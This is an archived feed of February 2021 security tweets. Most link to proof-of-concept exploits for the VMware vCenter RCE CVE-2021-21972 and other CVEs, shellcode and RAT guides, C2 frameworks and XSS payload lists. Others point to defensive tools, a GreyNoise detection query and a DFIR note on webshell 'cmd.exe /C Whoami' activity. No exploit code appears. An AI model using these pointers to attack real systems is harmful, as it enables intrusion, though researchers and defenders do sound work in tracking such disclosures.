


# nathanqthai
**https://twitter.com/nathanqthai/status/1365861435549622273 _at 2021-02-28 03:08:37_**
<blockquote>
Tags in @GreyNoiseIO for VMWare vCenter CVE-2021-21972:

GNQL:
tags:"VMware vCenter RCE Attempt" OR tags:"VMWare vCenter RCE Vuln Check"

https://t.co/rN2fFExdKf https://t.co/jEC1B4q3P3
</blockquote>

* https://viz.greynoise.io/query/?gnql=tags%3A%22VMware%20vCenter%20RCE%20Attempt%22%20OR%20tags%3A%22VMWare%20vCenter%20RCE%20Vuln%20Check%22

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# TheDFIRReport
**https://twitter.com/TheDFIRReport/status/1365784607241736201 _at 2021-02-27 22:03:20_**
<blockquote>
@r0wdy_ Great question(s) @r0wdy_!

CVE-2021-21972: vCenter RCE

➡️Java writes the webshell to disk
➡️➡️C:\Program Files\VMware\vCenter Server\jre\bin\java.exe

➡️Java also executes the webshell commands such as whoami (eventId 4688)
➡️➡️cmd.exe /C Whoami https://t.co/UmkSL99u6k
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1365738329967190016 _at 2021-02-27 18:59:26_**
<blockquote>
Scanning for VMware vCenter Unauthorized RCE (CVE-2021-21972) using nuclei templates.

#hackwithautomation #appsec https://t.co/3fZA6d5JgM
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>404</code></td>
</tr></table>

---

# osama_hroot
**https://twitter.com/osama_hroot/status/1365586206982082560 _at 2021-02-27 08:54:57_**
<blockquote>
An unauthorized server-side request forgery (SSRF) vulnerabilities (#CVE-2021-21973) POC https://t.co/odVlMaiwDQ
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>295</code></td>
</tr></table>

---

# Ibraheem_111
**https://twitter.com/Ibraheem_111/status/1365424613170233350 _at 2021-02-26 22:12:50_**
<blockquote>
Windows Privilege Escalation Mind Map
https://t.co/DQ27Xv9elT https://t.co/FT00jgIl1K
</blockquote>

* https://github.com/C0nd4/OSCP-Priv-Esc

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# OphirHarpaz
**https://twitter.com/OphirHarpaz/status/1365386992058589185 _at 2021-02-26 19:43:21_**
<blockquote>
This is a great write up on an old VirtualBox VM escape vulnerability. It assumes little prior knowledge, is extremely detailed and even refers to an attacker as he/she ;) This person's account on Twitter is suspended 🙄 otherwise I'd compliment them...
https://t.co/jVt27D8Fck
</blockquote>

* https://github.com/MorteNoir1/virtualbox_e1000_0day

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>212</code></td>
</tr></table>

---

# threatintelctr
**https://twitter.com/threatintelctr/status/1365370786056388610 _at 2021-02-26 18:38:57_**
<blockquote>
🚨 NEW: CVE-2021-23345 🚨 All versions of package https://t.co/z54UvdblTH are vulnerable to Server-side Request Forgery (SSRF) via the /convert/html endpoint when the src attribute of an HTML element re... (click for more)  https://t.co/zmshZ4dIpA
</blockquote>

* http://github.com/thecodingmachine/gotenberg
* https://nvd.nist.gov/vuln/detail/CVE-2021-23345

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1364962064440193024 _at 2021-02-25 15:34:50_**
<blockquote>
Scanning Azure blob storage service for publicly open sensitive files : https://t.co/xo9PkKuOB2

BlobHuter : a tool which can help you check for poorly configured containers storing sensitive data : 
https://t.co/N99rjcQ6o6 credits @danielniv3
</blockquote>

* https://www.cyberark.com/resources/threat-research-blog/hunting-azure-blobs-exposes-millions-of-sensitive-files
* https://github.com/cyberark/BlobHunter

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1364957115761229826 _at 2021-02-25 15:15:10_**
<blockquote>
Extracting an ELF From an ESP32 : https://t.co/wyhoKdtWnD 

esp32_image_parser : A toolkit for helping you reverse engineer ESP32 firmware : https://t.co/EDCbmkJtt5

Inside SimpliSafe Alarm System : https://t.co/cIuTQqQysV credits @_NickMiles_ https://t.co/VTe4FIZwC6
</blockquote>

* https://www.youtube.com/watch?v=w4_3vwN_2dI
* https://github.com/tenable/esp32_image_parser
* https://medium.com/tenable-techblog/inside-simplisafe-alarm-system-291a8c3e4d89

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1364955186838528010 _at 2021-02-25 15:07:30_**
<blockquote>
A Beginner's Guide to Windows Shellcode Execution Techniques : https://t.co/Opc1PzOXo1 

inMemoryShellcode : A Collection of In-Memory Shellcode Execution Techniques for Windows : https://t.co/b1ainmVU1y credits @0xcsandker
</blockquote>

* https://www.contextis.com/en/blog/a-beginners-guide-to-windows-shellcode-execution-techniques
* https://github.com/csandker/inMemoryShellcode

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>261</code></td>
</tr></table>

---

# matarturo
**https://twitter.com/matarturo/status/1364888383458336769 _at 2021-02-25 10:42:03_**
<blockquote>
Alleged PoC (untested) for CVE-2021-21972.

https://t.co/MKDjXetBwH
</blockquote>

* https://github.com/QmF0c3UK/CVE-2021-21972-vCenter-6.5-7.0-RCE-POC/blob/main/CVE-2021-21972.py

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1364886980429979654 _at 2021-02-25 10:36:29_**
<blockquote>
[Update]  https://t.co/bPnI7q1UoO   VMware_vCenter_UNAuthorized_RCE_CVE-2021-21972 Based on the data of ZoomEye dork: app: "VMware vCenter" in the last year, the vulnerability success rate is: 1551/3998 = 39% https://t.co/IhCm7ZqPnm
</blockquote>

* https://github.com/conjojo/VMware_vCenter_UNAuthorized_RCE_CVE-2021-21972

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# ASN_Sinanju_06S
**https://twitter.com/ASN_Sinanju_06S/status/1364807715017621504 _at 2021-02-25 05:21:30_**
<blockquote>
Something new to look out for: VMware vCenter Server CVE-2021-21972 Remote Code Execution Vulnerability

Rapid7 small breakdown: https://t.co/77FiScDX3m
Writeup from the researchers: https://t.co/2VDOfhJy1T
POC: https://t.co/oMVufjpBdT
</blockquote>

* https://blog.rapid7.com/2021/02/24/vmware-vcenter-server-cve-2021-21972-remote-code-execution-vulnerability-what-you-need-to-know/
* https://swarm.ptsecurity.com/unauth-rce-vmware/
* https://github.com/horizon3ai/CVE-2021-21972

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# tijme
**https://twitter.com/tijme/status/1364693510323134467 _at 2021-02-24 21:47:42_**
<blockquote>
Remote Code Execution PoC for vCenter CVE-2021-21972.

https://t.co/gAP6Xc4otB
</blockquote>

* https://github.com/horizon3ai/CVE-2021-21972

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1364625077355110409 _at 2021-02-24 17:15:46_**
<blockquote>
Since the PoC for the VMware vCenter RCE (CVE-2021-21972) is now readily available, we're publishing our article covering all of the technical details.

Read the article: https://t.co/L3nms8E71o
</blockquote>

* https://swarm.ptsecurity.com/unauth-rce-vmware/

<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>455</code></td>
<td>Favorites: <code>798</code></td>
</tr></table>

---

# AdmVonSchneider
**https://twitter.com/AdmVonSchneider/status/1364489966856921088 _at 2021-02-24 08:18:53_**
<blockquote>
IDA 7.6 Beta is out w/ support for Apple Silicon.

Here's a matching BinExport plugin, built as Universal 2 binaries:
https://t.co/jnQ6VxYTMV

#BinDiff 7 will ship with Universal 2 binaries, too

@ilfak @IgorSkochinsky
</blockquote>

* https://github.com/google/binexport/releases/tag/v11-20210224-rc1

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>88</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1364283310281785350 _at 2021-02-23 18:37:42_**
<blockquote>
💥VMware fixed an Unauth RCE in vCenter (CVE-2021-21972) found by our researcher Mikhail Klyuchnikov.

CVSS: 9.8 🔥

Advisory: https://t.co/8ylVdvcUqr https://t.co/9g1gPboaap
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-00002.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>48</code></td>
<td>Replies: <code>21</code></td>
<td>Retweets: <code>410</code></td>
<td>Favorites: <code>962</code></td>
</tr></table>

---

# _0xf4n9x_
**https://twitter.com/_0xf4n9x_/status/1364076956569001986 _at 2021-02-23 04:57:44_**
<blockquote>
#CVE-2021-3120 WordPress WooCommerce(YITH WooCommerce Gift Cards Premium) #RCE

POC：
https://t.co/OS5SlnHOXi
</blockquote>

* https://github.com/guy-liu/yith-giftdrop

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# holme_sec
**https://twitter.com/holme_sec/status/1363900491365838850 _at 2021-02-22 17:16:31_**
<blockquote>
Got my first CVE!🎉 CVE-2021-24150 - Unauthenticated Full-Read SSRF in a WP plugin

Thanks to @_WPScan_ for handling the disclosure process!

https://t.co/kcU7TqtP8A
</blockquote>

* https://wpscan.com/vulnerability/6bc6023f-a5e7-4665-896c-95afa5b638fb

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1363837080820994053 _at 2021-02-22 13:04:33_**
<blockquote>
The results are here! Benchmark of #webassembly runtimes - 2021 Q1 https://t.co/xJPrrJIq44
</blockquote>

* https://github.com/jedisct1/webassembly-benchmarks/tree/master/2021-Q1

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# CVEexploits
**https://twitter.com/CVEexploits/status/1363834178979045382 _at 2021-02-22 12:53:01_**
<blockquote>
#Exploit 3212 for CVE-2021-3156 (Sudo before 1.9.5p2 has a Heap-based Buffer Overflow, allowing privilege escalation to root via "sudoedit -s" and a command-line argument that ends with a single backslash character.)

Link: https://t.co/CBQsStnDcC https://t.co/tekqmXZRsw
</blockquote>

* https://github.com/maazsyed/CVE-PoC-Exploits/tree/master/CVE-2021

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1363518539043233796 _at 2021-02-21 15:58:47_**
<blockquote>
OSCP-Prep-cheatsheet : A collection of publicly available cheat sheets for OSCP preparation : https://t.co/rbTsOo1qqb 

A curated list of awesome OSCP resources : https://t.co/MFb9KXzvRb
</blockquote>

* https://github.com/evets007/OSCP-Prep-cheatsheet
* https://github.com/0x4D31/awesome-oscp

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>151</code></td>
<td>Favorites: <code>445</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1363513747860381697 _at 2021-02-21 15:39:45_**
<blockquote>
One thousand and one ways to copy your shellcode to memory (VBA Macros) : https://t.co/XOWzTf4aKE credits @TheXC3LL

SharpLAPS : Retrieve LAPS password from the LDAP : https://t.co/o3DpV9qd0c credits @pentest_swissky
</blockquote>

* https://adepts.of0x.cc/alternatives-copy-shellcode/
* https://github.com/swisskyrepo/SharpLAPS

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1363508800360091649 _at 2021-02-21 15:20:05_**
<blockquote>
Imhex : A Hex Editor for Reverse Engineers, Programmers and people that value their eye sight when working at 3 AM : https://t.co/4EkT1rtYRO credits @WerWolv https://t.co/8z22uDmft8
</blockquote>

* https://github.com/WerWolv/ImHex

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>23</code></td>
<td>Retweets: <code>542</code></td>
<td>Favorites: <code>1999</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1363493856927387648 _at 2021-02-21 14:20:42_**
<blockquote>
ytfzf : A posix script to find and watch youtube videos from the terminal (Without API) : https://t.co/swlneP9SE7 https://t.co/Tn1cE2fTeB
</blockquote>

* https://github.com/pystardust/ytfzf

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>216</code></td>
</tr></table>

---

# standa_t
**https://twitter.com/standa_t/status/1363354500589740033 _at 2021-02-21 05:06:57_**
<blockquote>
You must know what VM-exit reason 33 (0x21) is if you ever wrote a hypervisor from scratch. Too much researchers' time was wasted to diagnose it

I am sharing diagnostics code I have been using. This finds out why that VM-exit happened and saves your time
https://t.co/Y4zIup9XhX
</blockquote>

* https://gist.github.com/tandasat/4b0bc82c6d782d4901b529ebeca60126

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---

# podalirius_
**https://twitter.com/podalirius_/status/1363096878594879488 _at 2021-02-20 12:03:15_**
<blockquote>
Proof of concept exploit code for @Niklas974's Authenticated Remote Code Execution on GiTea (CVE-2020-14144) is now available on https://t.co/uDZ9ftwaR3 !

https://t.co/cafo9r10Va

#exploit #cve #gitea #remote #code #execution #cybersecurity #podalirius
</blockquote>

* http://exploit-db.com
* https://www.exploit-db.com/exploits/49571

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>6</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1362510132807139336 _at 2021-02-18 21:11:44_**
<blockquote>
WINDOWS KERNEL ZERO-DAY EXPLOIT (CVE-2021-1732) IS USED BY BITTER APT IN TARGETED ATTACK
https://t.co/tvDREOpDWS
</blockquote>

* https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>213</code></td>
<td>Favorites: <code>429</code></td>
</tr></table>

---

# sourceincite
**https://twitter.com/sourceincite/status/1362416728110686212 _at 2021-02-18 15:00:35_**
<blockquote>
CMS Made Simple Serverside Template Injection Remote Code Execution Exploit 

Combines CVE-2019-9053 found by @sk4pwn and CVE-2021-26120 found by @steventseeley to achieve unauthenticated remote code exection.
Proof of Concept: https://t.co/jsLdkLMsBl
</blockquote>

* https://srcincite.io/pocs/cve-2021-26120.py.txt

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# awesomekling
**https://twitter.com/awesomekling/status/1362356930686115840 _at 2021-02-18 11:02:58_**
<blockquote>
🔥 cees-elzinga found a new ptrace race condition in SerenityOS and combined it with an ASLR bypass to get local privilege escalation! 🔥

Props to cees-elzinga for the awesome PoC exploit and for sharing their findings so we can all learn 🤓

https://t.co/yxmCA4J3dC
</blockquote>

* https://github.com/SerenityOS/serenity/issues/5230#issuecomment-781121495

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1362024403127521283 _at 2021-02-17 13:01:37_**
<blockquote>
How-to Build Your Own Ruby RAT : https://t.co/L0jfGvI3DX 

ryat : Linux RAT in Ruby :  https://t.co/OjOjS3MUqo
</blockquote>

* https://0x00sec.org/t/how-to-build-your-own-ruby-rat/24919
* https://github.com/chr0x6d/ryat

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>70</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1362015091093245952 _at 2021-02-17 12:24:37_**
<blockquote>
capa : It detects capabilities in executable files. You run it against a PE file or shellcode and it tells you what it thinks the program can do : https://t.co/Loqt76Broy

Details : https://t.co/RC4MtsKhAf https://t.co/CPUO0EC4aw
</blockquote>

* https://github.com/fireeye/capa
* https://www.fireeye.com/blog/threat-research/2020/07/capa-automatically-identify-malware-capabilities.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>134</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1362012803070971910 _at 2021-02-17 12:15:31_**
<blockquote>
ote : a command line utility that generates *temporary* email address and automatically extracts OTP's or confirmation links from the incoming mails : https://t.co/zfVun0tt8P credits @s0md3v
</blockquote>

* https://github.com/s0md3v/ote

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1362006386524127239 _at 2021-02-17 11:50:02_**
<blockquote>
Introducing MacHound : A Solution to MacOS Active Directory-Based Attacks : https://t.co/QVk2WplIkO 

Repo : https://t.co/zlUFl11tkW https://t.co/bTed5WXcEG
</blockquote>

* https://www.xmcyber.com/introducing-machound-a-solution-to-macos-active-directory-based-attacks/
* https://github.com/XMCyber/MacHound

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>144</code></td>
</tr></table>

---

# Alra3ees
**https://twitter.com/Alra3ees/status/1361862869176967168 _at 2021-02-17 02:19:44_**
<blockquote>
Top 25 Vulnerability Parameters based on frequency:-

XSS.
SSRF.
SQLi.
RCE.
LFI.
Open redirect.

https://t.co/UiFB7LnDbu https://t.co/1oOIWG7P2y
</blockquote>

* https://github.com/lutfumertceylan/top25-parameter

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>344</code></td>
<td>Favorites: <code>793</code></td>
</tr></table>

---

# almogcygel
**https://twitter.com/almogcygel/status/1361752268735991809 _at 2021-02-16 19:00:15_**
<blockquote>
@the_vyAdha You can find more practical XSS payloads here: https://t.co/fNm2uS6X0v
</blockquote>

* https://github.com/cygelman/practical-xss

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1361669656747020298 _at 2021-02-16 13:31:59_**
<blockquote>
RT @orange_8361: Most of my public presentation slides are on GitHub now!
https://t.co/3D2p8pSSzQ
</blockquote>

* https://github.com/orangetw/My-Presentation-Slides

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>349</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1361668802929324035 _at 2021-02-16 13:28:35_**
<blockquote>
Perfusion : Exploit for the RpcEptMapper registry key permissions vulnerability (Windows 7 / 2088R2 / 8 / 2012) : https://t.co/uRCLV5wzlj 

Details : 

Windows RpcEptMapper Service Insecure Registry Permissions EoP : https://t.co/UupB46JNHW credits @itm4n https://t.co/xp0pE4PJuF
</blockquote>

* https://github.com/itm4n/Perfusion
* https://itm4n.github.io/windows-registry-rpceptmapper-eop/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1361667082144784388 _at 2021-02-16 13:21:45_**
<blockquote>
BlackMamba : A multi client C2/post exploitation framework with some spyware features : https://t.co/Lf64FotjVN https://t.co/bOsG0TAWfV
</blockquote>

* https://github.com/loseys/BlackMamba

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>190</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1361621611082702848 _at 2021-02-16 10:21:04_**
<blockquote>
SecretScanner : Find secrets and passwords in container images and file systems : https://t.co/hsS7pBFICQ

Detecting Secrets to Reduce Attack Surface : https://t.co/tU2qX9dS4A https://t.co/N0g835Mq2k
</blockquote>

* https://github.com/deepfence/SecretScanner
* https://medium.com/deepfence-cloud-native-security/detecting-secrets-to-reduce-attack-surface-3405ee6329b5

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>78</code></td>
<td>Favorites: <code>234</code></td>
</tr></table>

---

# jordan9001
**https://twitter.com/jordan9001/status/1361512907448725513 _at 2021-02-16 03:09:07_**
<blockquote>
Dug around in the cool bug reported by @a13xp0p0v and wrote a little writeup about turning the bug into a use after free.
https://t.co/2pjoIS02rG
It still needs diagrams or something, but it should be a nice starting point for playing with this CVE-2021-26708.
</blockquote>

* https://github.com/jordan9001/vsock_poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1361350551489835010 _at 2021-02-15 16:23:58_**
<blockquote>
Digging for files with Velociraptor (DFIR tool) : https://t.co/TKv5hqimjx

Velociraptor - Endpoint visibility and collection tool : https://t.co/HLEV914oot
</blockquote>

* https://medium.com/velociraptor-ir/digging-for-files-with-velociraptor-a1c0a21e242b
* https://github.com/Velocidex/velociraptor

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1361348564740268032 _at 2021-02-15 16:16:05_**
<blockquote>
pe_tree : Python module for viewing Portable Executable (PE) files in a tree-view using pefile and PyQt5 (can be used w/ IDA Pro and Rekall* to dump in-memory PE files) : https://t.co/VKPybADz1H https://t.co/tjp8KyyVgO
</blockquote>

* https://github.com/blackberry/pe_tree

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>112</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1361310126985142273 _at 2021-02-15 13:43:20_**
<blockquote>
VMware fixed a Post-Auth RCE in vSphere Replication (CVE-2021-21976) found by our researcher Egor Dimitrenko.

Advisory: https://t.co/wuKw2mmDfB https://t.co/17TXP0euQ1
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-0001.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>237</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1361117418630881281 _at 2021-02-15 00:57:35_**
<blockquote>
ASN intelligence information (IP to ASN mapping) collected and distributed in open source and transparent way https://t.co/R6rQ6btWVL
</blockquote>

* https://github.com/pavel-odintsov/asn_intelligence

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# Ash_735
**https://twitter.com/Ash_735/status/1360664655904059398 _at 2021-02-13 18:58:28_**
<blockquote>
Grand Theft Auto III has been FULLY reverse engineered! Introducing re3, an open source project on GitHub which fixes what was broken and can be compiled for various platforms! #GTA #GTA3 : https://t.co/1oGYXNTm9z https://t.co/DGvWPDItdb
</blockquote>

* https://github.com/GTAmodding/re3

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>18</code></td>
<td>Replies: <code>20</code></td>
<td>Retweets: <code>214</code></td>
